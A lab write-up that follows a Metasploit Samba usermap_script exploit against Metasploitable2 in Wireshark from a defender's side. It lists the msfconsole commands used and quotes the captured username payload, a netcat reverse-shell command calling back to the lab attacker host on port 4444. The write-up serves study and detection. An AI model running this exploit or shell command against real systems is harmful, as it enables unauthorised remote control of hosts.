


# Network Traffic Analysis - Samba Exploit (Blue Team Perspective)

## Objective
Capture the network traffic from the Samba exploit I ran earlier, and look at it from a defender's side this time - trying to figure out how the attack would actually look to someone monitoring the network.

## Tools Used
- Kali Linux
- Wireshark
- Metasploit Framework (to run the attack again while capturing)
- Target: Metasploitable2 (Samba smbd 3.X)

## Steps

### 1. Setup
Started a live capture on eth0 with Wireshark, then ran the same Samba exploit from before while it was recording.

```
wireshark (capturing on eth0)
msfconsole
search samba usermap
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.233.128
set LHOST 192.168.233.129
run
```

### 2. Looking Through the Traffic
Went through the captured packets and found the whole attack, step by step:

- Packets 1-7: normal TCP handshake and SMB saying hello to each other
- Packet 8: the actual exploit - an SMB request where the "username" field has a full shell command in it instead of a real username
- Packets 9-16: a new connection opens on port 4444 - this is the reverse shell connecting back to Kali
- Packet 21+: commands (like whoami) being sent in plain text through the shell



### 3. The Important Part - Packet 8
Opened up packet 8 and found the exact command sitting in plain text inside the "Account" field:

```
Account: /=`nohup mkfifo /tmp/fopn; nc 192.168.233.129 4444 0</tmp/fopn | /bin/sh >/tmp/fopn 2>&1; rm /tmp/fopn`
```

This shows exactly how the vulnerability works - the Samba server takes whatever is typed as a username and runs it as a command.



## Result
Managed to capture and follow the whole attack in Wireshark, from the first connection all the way to commands being run, and none of it was encrypted.

## What I Learned
- How to capture and read live traffic with Wireshark
- What an exploit actually looks like on the network, not just from the attacker's screen
- Why older protocols like SMB (set up this way) can leak attack commands in plain text
- What kind of things a security analyst might look for to catch this - like weird traffic on a port that isn't normally used (4444), or a username field that's way too long
- That looking at security only from the attacker's side isn't enough - you need to see it from both sides
